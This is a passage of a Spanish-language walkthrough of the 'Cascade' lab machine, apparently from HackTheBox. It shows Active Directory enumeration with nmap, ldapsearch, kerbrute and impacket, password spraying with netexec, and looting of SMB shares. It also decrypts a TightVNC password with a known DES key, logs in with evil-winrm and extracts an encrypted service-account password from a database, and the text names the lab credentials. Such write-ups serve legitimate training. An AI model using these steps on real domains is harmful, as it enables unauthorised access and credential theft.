# Cascade

`Cascade` es una máquina Windows de dificultad media configurada como un controlador de dominio. Los enlaces anónimos de LDAP están habilitados y la enumeración genera la contraseña del usuario `r.thompson`, que brinda acceso a una copia de seguridad del registro `TightVNC`. La copia de seguridad se descifra para obtener la contraseña de `s.smith`. Este usuario tiene acceso a un ejecutable .NET, que después de la descompilación y el análisis del código fuente revela la contraseña de la cuenta `ArkSvc`.

Esta cuenta pertenece al grupo `AD Recycle Bin` y puede ver los objetos de Active Directory eliminados. Se descubre que una de las cuentas de usuario eliminadas contiene una contraseña codificada, que se puede reutilizar para iniciar sesión como administrador principal del dominio.

<figure><figcaption></figcaption></figure>

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina Cascade.

```bash
nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.10.182 -oG allPorts
```

<figure><figcaption></figcaption></figure>

Lanzaremos una serie de scripts básicos para intentar buscar vulnerabilidades en los puertos que hemos encotrado expuestos.


```bash
nmap -sCV -p53,88,135,139,389,445,636,3268,3269,5985,49154,49155,49157,49158,49165 10.10.10.182 -A -oN targeted
```


<figure><figcaption></figcaption></figure>

Comprobaremos el nombre del dominio con el cual nos enfrentamos a través del siguiente comando.

Verificaremos también a qué tipo de máquina nos enfrentamos a través de **netexec**.

```bash
ldapsearch -x -H ldap://10.10.10.182 -s base | grep defaultNamingContext

netexec smb 10.10.10.182
```

<figure><figcaption></figcaption></figure>

Procederemos a añadir la entrada en nuestro archivo **/etc/hosts**

```bash
catnp /etc/hosts | grep cascade.local
```

<figure><figcaption></figcaption></figure>

## Users Enumeration

### Enumerating users with NSrpcenum and enum4linux

Probaremos a través de la herramienta **NSrpcenum** de ver si nos podemos conectar al RPC mediante una null sesión y enumerar usuarios, comprobamos que si podemos efectuar el ataque y sacamos todo el listado de los usuarios que se encuentran en el dominio.

```bash
NSrpcenum -e DUsers -i 10.10.10.182
```

<figure><figcaption></figcaption></figure>

Otra de las herramientas que podemos probar es la de **enum4linux** que nos mostrará mucha más información a parte de la de los usuarios del equipo.

```bash
enum4linux -a -u "" -p "" 10.10.10.182
```

<figure><figcaption></figcaption></figure>

### Enumerating valid domain users with Kerbrute

Procederemos a realizar una enumeración de qué usuarios de esos son válidos en el dominio, es decir, que su cuenta sea de AD.

```bash
catnp users.txt

kerbrute userenum --dc 10.10.10.182 -d cascade.local users.txt
```

<figure><figcaption></figcaption></figure>

### AS-REP Roasting Attack (GetNPUsers) - \[FAILED]

Debido que disponemos de una gran lista de usuarios válidos, procederemos a intentar efectuar un **AS-REP Roasting Attack** para intentar obtener un Ticket Granting Ticket (TGT), pero no obtenemos resultado.


```bash
impacket-GetNPUsers -no-pass -usersfile users.txt cascade.local/ 2>/dev/null

impacket-GetNPUsers -no-pass -usersfile valid_domain_users.txt cascade.local/ 2>/dev/null
```


<figure><figcaption></figcaption></figure>

### LDAP Enumeration (windapsearch.py && ldapsearch)

Procederemos a enumerar el protocolo LDAP y estaremos utilizando la herramienta de **windapsearch.py** la cual estaremos buscando por contenido que contenga "pwd" o "password".

Nos damos cuenta que aparece un campo llamado "cascadeLegacyPwd" con lo que parece ser una contraseña encodeada en Base64.

<figure><figcaption></figcaption></figure>

Podemos realizar la misma enumeración a través de la herramienta de **ldapsearch**.


```bash
ldapsearch -x -H ldap://10.10.10.182 -b "DC=cascade,DC=local" | grep -ie "pwd\|password"
```


<figure><figcaption></figcaption></figure>

Probaremos a descodificar el texto encontrado en Base64 y parece que obtenemos lo que parece ser una contraseña.

<figure><figcaption></figcaption></figure>

Probaremos de enumerar a todos los usuarios que disponemos para ver si uno de ellos se puede llegar a autenticar. Verificamos que el usuario "r.thompson" se puede autenticar con dichas credenciales.


```bash
netexec smb 10.10.10.182 -u valid_domain_users.txt -p 'rY4n5eva' --continue-on-success

netexec smb 10.10.10.182 -u users.txt -p 'rY4n5eva' --continue-on-success
```


<figure><figcaption></figcaption></figure>

Procederemos a intentar comprobar si con este usuario podemos acceder al WinRM, pero no nos lo acepta seguramente por falta de permisos, pero sus credenciales son correctas.

<figure><figcaption></figcaption></figure>

### Kerberoasting Attack (GetUserSPNs) - \[FAILED]

Debido que disponemos de unas credenciales válidas de un usuario, procederemos a intentar realizar un **Kerberoasting Attack** para solicitar un Ticket Granting Service (TGS), sin resultado esperado tampoco.

```bash
impacket-GetUserSPNs -dc-ip 10.10.10.182 cascade.local/r.thompson -request
```

<figure><figcaption></figcaption></figure>

## SMB Enumeration

Procederemos a realizar la enumeración de SMB, para ver los recursos compartidos que tiene acceso el usuario "r.thompson".

```bash
netexec smb 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva' --shares
```

<figure><figcaption></figcaption></figure>

Procedferemos a revisar por encima, cual es el contenido de la carpeta "Data" para ver si dispone de directorios, archivos, para así descartarlo de enumerarlo en caso que no disponga de nada.

```bash
smbmap -H 10.10.10.182 --no-banner -u 'r.thompson' -p 'rY4n5eva' -r DATA/
```

<figure><figcaption></figcaption></figure>

Procederemos a conectarnos mediante **smbclient** al recurso compartido "DATA" y nos descargaremos todo el contenido del recurso compartido en nuestro equipo local.

```bash
smbclient //10.10.10.182/DATA -U 'r.thompson%rY4n5eva'
```

<figure><figcaption></figcaption></figure>

El primer archivo que vemos, es una página web que indica que se creó un usuario llamado "TempAdmin" que su contraseña es la misma que la del usuario Administrador, pero este usuario se creó en un momento puntual y fue eliminado a finales de 2018.

Nos quedaremos con esta información por si pudieramos recuperar al usuario "TempAdmin" y lograr ver su contraseña más adelante.

```bash
cat "./IT/Email Archives/Meeting_Notes_June_2018.html"
```

<figure><figcaption></figcaption></figure>

Por otro lado, disponemos de un log en el cual se menciona al usuario "ArkSvc" y parece ser que se estan realizando tareas de eliminar/mover a usuarios del AD. Relativamente no encontramos algún tipo de información.

```bash
cat "./IT/Logs/Ark AD Recycle Bin/ArkAdRecycleBin.log"
```

<figure><figcaption></figcaption></figure>

Revisando el archivo "VNC Install.reg" comporbamos que dispone de un valor llamado "Password" con una contraseña encodeada parace ser en **hex**.

```bash
cat "./IT/Temp/s.smith/VNC Install.reg"
```

<figure><figcaption></figcaption></figure>

## Cracking TightVNC Password

Probaremos de descodear el contenido en hex de manera habitual, pero nos encontramos que el contenido no está en texto plano, esto hace pensar que alomejor pueda estar encriptado y por dicho motivo no lo vemos en texto plano.

```bash
echo '6b cf 2a 4b 6e 5a ca 0f' | xxd -r -p; echo
```

<figure><figcaption></figcaption></figure>

Como se trata de un VNC password ecnriptado, buscando en Internet logramos descubrir la siguiente página web -[ PasswordsDecrypts VNC](https://github.com/frizb/PasswordDecrypts) en la cual nos explicaba como desencriptar el hex de VNC.

Comprobamos finalmente  lo que parece ser la contraseña en texto plano.


```bash
echo '6b cf 2a 4b 6e 5a ca 0f' | xxd -r -p |  openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
```


<figure><figcaption></figcaption></figure>

## Initial Access

### Abusing WinRM- EvilWinRM

Procederemos a revisar si algún usuario de los que disponemos se puede autenticar con estas credenciales, comprobamos que el usuario "s.smith" puede autenticarse.

```bash
netexec smb 10.10.10.182 -u users.txt -p 'sT333ve2' --continue-on-success
```

<figure><figcaption></figcaption></figure>

Guardaremos las nuevas credenciales obtenidas en nuestro archivo "credentials.txt"

```bash
catnp credentials.txt
```

<figure><figcaption></figcaption></figure>

Validaremos con **netexec** de que podemos conectarnos al WinRM, comprobamos que sí, debido que la herramienta nos reporta (**pwn3d**) y obtenemos la flag de **user.txt**.

```bash
netexec winrm 10.10.10.182 -u s.smith -p 'sT333ve2'

evil-winrm -i 10.10.10.182 -u s.smith -p 'sT333ve2'
```

<figure><figcaption></figcaption></figure>

### Enumerating SQLite3 Database File

Comprobaremos con el nuevo usario obtenido a qué recursos compartidos tiene acceso. Comprobamos que dispone de acceso al recurso "Audit$", por lo tanto con **sqlmap** listaremos el directorio para ver que no esté vacío.

```bash
netexec smb 10.10.10.182 -u 's.smith' -p 'sT333ve2' --shares

smbmap -H 10.10.10.182 --no-banner -u 's.smith' -p 'sT333ve2' -r Audit$/
```

<figure><figcaption></figcaption></figure>

Procederemos a conectarnos a través de **smbclient** y nos descargaremos todo el contenido del recurso.

```bash
smbclient //10.10.10.182/Audit$ -U 's.smith%sT333ve2'
```

<figure><figcaption></figcaption></figure>

Uno de los archivos que nos llama la atención, es el de "Audit.db" que es un archivo de BBDD. Reviasndo con el comando **strings** nos damos cuenta que es sobre un SQLite y se han ejecutado insutrcciones, estas mismas hacen referencia auna tabnla llamada "LDAP".

```bash
strings Audit.db
```

<figure><figcaption></figcaption></figure>

Revisando el contenido de la tabla "LDAP", obtenemos lo que parece ser el usuario "ArkSvc" y su respectiva contraseña encodeada en Base64.

```sql
sqlite3 Audit.db

SELECT * FROM LDAP;
```

<figure><figcaption></figcaption></figure>

Probaremos de descodearlo en Base64, pero obtenemos un resultado que no está en texto plano, lo que nos puede indicar que el contenido parece estar cifrado.

```bash
echo "BQO5l5Kj9MdErXx6Q6AGOw==" | base64 -d; echo
```

<figure><figcaption></figcaption></figure>

### Analysis of Windows EXE binary (DNSpy)

Procederemos a enumerar  losnotros archivos, como el .exe .dll des de **DNSpy**. Nos fijamos que el binario del EXE hace uso de la librería Crypto que es una librería para la encriptación de texto, y vemos que aparece una clave en textoplano.

<figure><figcaption></figcaption></figure>

En el código hemos encontrado AES-CBC, un modo de cifrado que utiliza una clave secreta para cifrar datos en bloques donde cada bloque depende del anterior, y emplea un IV (Vector de Inicialización) para añadir aleatoriedad al primer bloque, lo que evita patrones repetidos y asegura que cada mensaje cifrado sea único y más seguro incluso si se usa la misma clave en múltiples cifrados.

